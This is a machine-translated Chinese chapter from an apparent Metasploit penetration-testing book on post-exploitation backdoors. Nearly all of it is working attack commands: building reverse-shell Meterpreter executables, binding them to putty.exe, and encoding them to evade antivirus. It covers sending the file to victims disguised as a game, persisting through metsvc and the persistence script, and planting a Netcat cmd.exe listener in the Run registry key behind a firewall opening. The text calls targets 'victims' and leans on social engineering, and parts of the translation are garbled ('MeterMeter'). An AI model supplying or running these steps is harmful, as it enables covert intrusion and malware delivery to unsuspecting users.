










# 第 10 章后开发-后门

在上一章中，我们着重于清理我们的轨迹，以避免被发现和抓获。本章将介绍使用后门维护对受损系统访问的技术。后门在维护对系统的持久访问和根据攻击者的需要使用系统方面起着重要作用，而不会一次又一次地攻击系统。我们将讨论如何避免恶意可执行文件被防病毒扫描程序检测到并危害用户机器。此外，我们将讨论如何使用编码器使这些可执行文件不可检测。

# 什么是后门？

后门是一种通过绕过正常安全机制进入计算机的方式。随着技术的发展，它现在配备了远程管理实用程序，允许攻击者通过 Internet 从任何位置远程控制系统。这可以是绕过身份验证、获取对机密信息的访问权限以及保护对计算机系统的非法访问。趋势表明，这些技术更侧重于下载/上传文件、远程截图、运行键盘记录器、收集系统信息以及妨碍用户隐私。

作为一个例子，考虑客户机-服务器网络通信，其中攻击机器充当服务器，客户端是攻击者。一旦服务器应用程序在受损用户上启动，它就会开始侦听传入的连接。因此，客户端可以轻松地连接到该特定端口并启动通信。一旦通信开始，随后可能会发生前面所述的其他恶意活动。我们在服务器和客户端之间有一种反向连接。服务器连接到单个客户端，客户端可以向连接的多个服务器发送单个命令。

## 有效载荷工具

在本章中，我们可能会遇到几种有效载荷制造工具。这里简要介绍了这些问题：

*   `msfpayload`：这是 Metasploit 的命令行实例，用于生成和输出 Metasploit 中可用的所有类型的 shell 代码。这主要用于为 Metasploit 中未发现的漏洞生成外壳代码，或在完成模块之前测试不同类型的外壳代码和选项。它是不同选项和变量的完美组合。
*   `msfencode`：这个是元开发工具包中用于开发漏洞的另一个伟大工具。其主要用途是对`msfpayload`生成的外壳代码进行编码。这样做是为了适应目标，以便正常工作。它可能涉及到将 shell 代码转换为纯字母数字，去除坏字符，并将其编码为 64 位目标。这可用于多次编码外壳代码；以各种格式输出，如 C、Perl 和 Ruby；甚至将其合并到现有的可执行文件中。
*   `msfvenom`：技术上来说`msfvenom`是`msfpayload`和`msfencode`的组合。`msfvenom`的优点包括许多标准化的命令行选项、单个工具和更高的速度。

# 创建 EXE 后门

在本节中，我们将学习如何使用内置有效负载创建恶意后门。但在开始之前，我们将在 Metasploit 框架中检查这些有效负载的位置（有效负载目录）。所以我们转到根目录，然后转到`/opt/metasploit/msf3/modules`。在这个目录下，我们找到了**有效载荷**目录。


通过使用一个简单的命令，我们还可以从 msfconsole 中看到所有这些有效负载。只要输入`show payloads`，它就会列出所有有效载荷。



要借助有效负载创建后门，Metasploit 中有三个可用工具，`msfpayload`、`msfencode`和`msfvenom`。这三个工具位于`/opt/metasploit/msf3`。


现在我们来看看如何使用`msfpayload`创建后门。打开终端，输入`msfpayload`目录的路径。在我们的例子中，它是`cd /opt/metasploit/msf3`。


现在我们在目录中，可以使用`msfpayload`创建后门；即`msfpayload`的位置。输入`./msfpayload -h`将显示`msfpayload`的所有可用命令。


我们看到`<payload>`有一个选项。这意味着我们必须首先从有效负载列表中选择一个有效负载，该列表已通过`show payloads`命令显示给您。现在我们选择一个有效载荷。


例如，在这里我们选择`windows/x64/meterpreter/reverse_tcp`有效载荷来创建我们的后门。

现在输入`./msfpayload windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 X> root/Desktop/virus.exe`。

使用的语法如下所示：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 X> (Giving path directory where to create virus.exe backdoor)- root/Desktop/virus.exe

```


输入命令后，我们看到桌面上有一个`virus.exe`后门。就这样,；我们完了。使用`msfpayload`创建后门就这么简单。如果我们不想创建自己的 EXE 文件，而只想与另一个 EXE 文件绑定（可能是软件安装文件），我们可以混合使用`msfpayload`和`msfvenom`来实现。

我们现在将后门 EXE 文件与`putty.exe`文件绑定。非常小心地键入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 6 -t exe -x/root/Desktop/putty.exe -o /root/Desktop/virusputty.exe

```

使用的语法如下所示：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 6 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template)- root/Desktop/virus.exe o(The output file) - root/Desktop/virusputty.exe

```

我们可以在下面的截图中看到，我们的病毒文件`virus.exe`已与`putty.exe`绑定，提供给我们`virusputty.exe`，可在我们的桌面上使用。


在本章中，我们已经学会了使用`msfpayload`和`msfvenom`创建后门。下一步是使用任何社会工程技术将此后门 EXE 程序发送给受害者。

## 创建完全不可检测的后门

我们在前面部分中创建的后门效率不高，并且缺乏检测规避机制。问题是后门很容易被防病毒程序检测到。因此，在本节中，我们的主要任务是创建一个不可检测的后门并绕过防病毒程序。

我们刚刚将我们的`virus.exe`文件改为`game.exe`发送给受害者，以便他/她下载。



下载`game.exe`文件后，被 AVG antivirus 检测为病毒。


我们的后门很容易被防病毒程序检测到，我们必须让它无法被检测到。让我们开始这个过程。我们将使用`msfencode`和编码器来完成此操作。首先，选择一个好的编码器来编码后门 EXE 文件。输入`show encoders`；这将显示 Metasploit 中可用编码器的列表。


我们现在可以看到编码器列表。我们会选择`x86 shikata_ga_nai`，因为它的排名是**优秀**。



现在键入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 1 -t exe -x/root/Desktop/game.exe -o /root/Desktop/supergame.exe

```

使用的语法如下：

```
PAYLOAD NAME - windows/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 1 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template) - root/Desktop/game.exe o(The output file) - root/Desktop/supergame.exe

```

我们可以在下面的屏幕截图中看到我们的`supergame.exe`文件已经创建。


同样，我们以链接的形式将`supergame.exe`文件发送给受害者，并让他/她将`supergame.exe`文件下载到自己的桌面上。


如果受害者使用防病毒程序扫描`supergame.exe`文件，他/她会发现该文件是一个干净的文件。


如果您不喜欢在终端中键入这么多命令，那么有另一种简单的方法可以借助脚本创建一个不可检测的后门。这个脚本称为“消失”。在编写脚本之前，我们必须在 BackTrack 中安装 Vanish 脚本所需的一些软件包（BackTrack 是一个基于 Debian GNU/Linux 发行版的发行版，旨在使用数字取证和渗透测试）。所以输入`apt-get install mingw32-runtime mingw-w64 mingw gcc-mingw32 mingw32-binutils`。安装所有必要的软件包需要几分钟的时间。


成功安装软件包后，我们只需通过键入`wget http://samsclass.info/120/proj/vanish.sh`从互联网下载脚本即可；`vanish.sh`文件保存在桌面上。



之后，输入`ll van*`。


现在通过输入`chmod a+x vanish.sh`更改对脚本的权限。


之后，我们必须将 Metasploit 目录中的消失脚本移动到`pentest/exploits/framework2`。


我们的消失脚本现在可以使用了，所以让我们转到该目录并键入`sh vanish.sh`。


执行脚本后，脚本会询问我们要使用它的网络接口。输入`eth0`。



在提供设备接口后，它将要求提供更多选项，例如它将侦听的反向连接的端口号（`4444`）、随机种子号（我们将其输入为`2278`）以及对有效负载进行编码的次数（我们指定`2`）。在给出这些细节之后，它将在`seclabs`目录中创建一个`backdoor.exe`文件。`seclabs`目录与消失脚本位于同一目录中。负载处理程序也将通过脚本在 msfconsole 中自动启动。现在我们只需将`backdoor.exe`文件发送给受害者，等待其执行。


到目前为止，我们已经了解了创建后门的不同方法和技巧。现在我们将进入下一部分–执行后门后处理来自受害者计算机的反向连接。将有效负载发送给受害者后，打开 msfconsole 并键入`use exploit/multi/handler`。



然后，只需在该处理程序中设置所有有效负载详细信息，并将其发送给受害者。输入`set PAYLOAD <your payload name>`；例如，这里我们使用的是`set PAYLOAD windows/meterpreter/reverse_tcp`。


之后，设置您为后门 EXE 文件提供的本地主机地址。输入`set LHOST <IP address>`；例如，这里我们使用的是`set LHOST 192.168.0.103`。


这是最后一种也是最后一种使用攻击技术的攻击，我们将看到反向处理程序连接已准备好接收连接。


执行后门后，将成功建立反向连接，并在攻击者的系统上生成 MeterMeter 会话。



让我们通过检查受害者的系统属性来获取有关其系统的信息。


是时候学习一些不同的东西了。在本节中，我们将学习在完成 MeterMeter 会话后在受害者的系统中安装后门。

Metasploit 中还有另一个后门，称为`metsvc`。我们将首先检查可用于此后门的命令，因此键入`run metsvc -h`，它将显示这些命令。


我们可以看到，`-A`选项将自动在受害者的机器中启动后门。所以输入`run metsvc -A`。



我们可以看到，从受害者的系统中建立了一个第二个 MeterMeter 会话，恶意后门`metsvc-server.exe`文件成功上传到受害者的系统中并执行。


受害者的任务管理器显示我们的后门服务正在运行。这些恶意文件被上传到 Windows 的目录`C:\WINDOWS\Temp\CFcREntszFKx`。



如果您想要从受害者的系统中删除该后门服务，请键入`run metsvc -r`。


我们可以看到，`metsvc`服务已成功删除，但受害者的`Temp`目录中的 EXE 文件不会被删除。

## Metasploit 持久后门

在本部分中，我们将学习使用持久后门。它是一个在目标系统中安装后门服务的 MeterMeter 脚本。因此，输入`run persistence -h`以显示可用于持久后门的所有命令。


理解可用命令后，输入`run persistence -A -L C:\\ -S -X -p 445 -i 10 -r 192.168.0.103`。

此语法中的命令解释如下：

*   `A`：用于自动启动有效负载处理器
*   `L`：目标主机中用于丢弃有效负载的位置
*   `S`：用于系统引导时自动启动代理
*   `p`：监听反向连接的端口号
*   `i`：新连接的时间间隔
*   `r`：目标机器的 IP 地址

现在，我们运行持久性后门脚本，如以下屏幕截图所示：


我们看到受害者的系统已经建立了一个计量器会话。让我们验证有效负载是否落在受害者的`C:`驱动器中。


如果您想删除该有效负载，我们必须输入`resource`和在运行`persistence`命令时创建的文件的路径。我们可以在上一步中找到路径。输入`resource /root/.msf4/logs/persistence/PWNED-02526E037_20130513.2452/PWNED-02526E037_20130513.2452.rc`。


我们将向您展示另一个著名的持久后门 Netcat。我们将通过 MeterMeter 会话在受害者的系统上上传 Netcat。就像下面的截图一样，我们将在桌面上看到`nc.exe`文件；那个文件是 Netcat。现在我们将把这个`nc.exe`文件上传到受害者的`system32`文件夹中。所以输入`upload /root/Desktop/nc.exe C:\\windows\\system32`。


我们可以看到我们的 Netcat 程序已成功上传到受害者的系统中。我们现在必须做的一件重要事情是将 Netcat 添加到受害者的启动进程中，并将其与端口 445 绑定。为了能够做到这一点，我们必须调整受害者的注册表设置。输入`run reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run`。


运行此命令枚举启动注册表项，我们发现在启动过程中有三个服务正在运行。我们可以在前面的屏幕截图中看到这三个值。现在，我们在这个注册表值中设置 Netcat 服务。输入`reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'`。


我们的 Netcat 服务已连接到注册表，因此让我们验证它是否正常运行。输入`reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc`。


我们必须做的下一件重要事情是允许端口号 445 的 Netcat 服务通过受害者的防火墙。输入`netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL`。


执行上一个命令后，我们看到我们的端口似乎是打开的。因此，让我们通过防火墙设置验证端口是否打开。输入`netsh firewall show portopening`。



我们可以在前面的屏幕截图中清楚地看到，`445 TCP`端口在防火墙中已启用。现在重新启动受害者的系统，并将受害者的系统与 Netcat 连接。打开终端，输入`nc -v <targetIP > <netcat port no.>`；例如，这里我们使用的是`nc -v 192.168.0.107 445`。这样做会将你连接回受害者的机器。


# 总结

在本章中，我们介绍了如何在受害者系统上部署后门可执行文件的各种技术。我们学会了将可执行文件绑定到合法程序，并让受害者为我们执行这些文件以获得反向连接。我们还讨论了 Metasploit kitty 中不同类型的有效负载，以及它们如何与后门 EXE 建立连接。我们还致力于使可执行文件不被防病毒软件检测到，因此用户无法区分正常文件和恶意文件。通过这些技术，我们能够学习如何在系统被利用后保持对系统的持久访问。在下一章中，我们将讨论后期开发的最后阶段，即数据透视和网络嗅探。

# 参考文献

以下是一些有用的参考资料，进一步阐明了本章所涵盖的一些主题：

*   [http://jameslovecomputers.wordpress.com/2012/12/10/metasploit-how-to-backdoor-an-exe-file-with-msfpayload/](http://jameslovecomputers.wordpress.com/2012/12/10/%E2%80%A8metasploit-how-to-backdoor-an-exe-file-with-msfpayload/)
*   [http://pentestlab.wordpress.com/2012/04/16/creating-an-undetectable-backdoor/](http://pentestlab.wordpress.com/2012/04/16/creating-an-undetectable-backdoor/)
*   [http://www.securitylabs.in/2011/12/easy-bypass-av-and-firewall.html](http://www.securitylabs.in/2011/12/easy-bypass-av-and-firewall.html)
*   [http://www.offensive-security.com/metasploit-unleashed/Interacting_With_Metsvc](http://www.offensive-security.com/metasploit-unleashed/Interacting_With_Metsvc)
*   [http://www.offensive-security.com/metasploit-unleashed/Netcat_Backdoor](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Netcat_Backdoor)
*   [http://en.wikipedia.org/wiki/Backdoor_（计算）](http://en.wikipedia.org/wiki/Backdoor_(computing))
*   [http://www.f-secure.com/v-descs/backdoor.shtml](http://www.f-secure.com/v-descs/backdoor.shtml)
*   [http://feky.bizhat.com/tuts/backdoor.htm](http://feky.bizhat.com/tuts/backdoor.htm)
*   [http://www.offensive-security.com/metasploit-unleashed/Msfpayload](http://www.offensive-security.com/metasploit-unleashed/Msfpayload)
*   [http://www.offensive-security.com/metasploit-unleashed/Msfencode](http://www.offensive-security.com/metasploit-unleashed/Msfencode)
*   [http://www.offensive-security.com/metasploit-unleashed/Msfvenom](http://www.offensive-security.com/metasploit-unleashed/Msfvenom)